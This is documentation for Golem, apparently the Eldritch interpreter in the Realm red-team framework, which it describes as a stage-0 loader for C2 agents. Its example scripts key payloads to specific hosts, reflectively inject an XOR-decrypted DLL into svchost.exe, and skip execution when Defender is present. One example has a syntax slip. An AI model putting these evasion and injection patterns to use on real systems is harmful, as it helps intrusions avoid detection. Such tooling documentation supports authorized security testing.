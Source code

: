 ```yaml
---
title: Golem
tags: 
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem
Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out.
```bash
git clone git@github.com:KCarretto/realm.git
cd realm/implants/golem
cargo run -- -i
# - or - 
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Golem embedded files
The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eld` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0
Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```